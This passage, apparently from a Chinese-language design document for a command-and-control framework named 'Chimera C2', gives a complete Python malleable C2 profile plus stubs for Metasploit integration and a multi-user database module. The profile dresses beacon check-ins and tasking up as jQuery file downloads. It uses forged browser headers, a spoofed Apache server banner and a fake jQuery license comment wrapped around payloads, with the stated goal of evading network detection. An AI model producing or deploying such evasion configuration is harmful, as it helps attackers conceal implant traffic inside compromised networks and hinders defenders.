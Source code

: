 ```python

# --- External Tool Integration (Metasploit) ---
# ... (配置保持不变)
```

### **模块二：`c2_server/malleable_profiles/default_profile.py` - 可塑性C2配置文件 (新增)**

**优化点:** 实现可塑性C2，允许操作员自定义通信流量，模仿正常应用以规避网络检测。

```python
# c2_server/malleable_profiles/default_profile.py

# 定义信标与C2通信的HTTP(S)流量特征
# Chimera C2服务器将使用此配置来解析请求和生成响应
PROFILE = {
    "name": "Default jQuery Profile",
    "http_get": {
        "uri": "/jquery-3.6.0.min.js",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36",
            "Accept": "text/javascript, application/javascript, */*",
            "Referer": "https://www.google.com/"
        },
        "client_metadata_location": "uri_param", # 将信标元数据放在URI参数中，例如 ?id=...
        "param_name": "session_id"
    },
    "http_post": {
        "uri": "/submit.php",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
    },
    "http_server_response": {
        "headers": {
            "Server": "Apache/2.4.29 (Ubuntu)",
            "Content-Type": "application/javascript; charset=utf-8",
            "Connection": "keep-alive"
        },
        # 响应体模板，{payload}将被实际数据替换
        "body_template": "/* jQuery v3.6.0 | (c) OpenJS Foundation and other contributors | jquery.org/license */\n(function(){ '{payload}' })();"
    }
}
```

### **模块三：`c2_server/database_manager.py` - 数据库管理器 (终极升级)**

**优化点:** 增加 `users`, `audit_log`, `automation_rules`表，支持多用户、RBAC、审计和自动化。
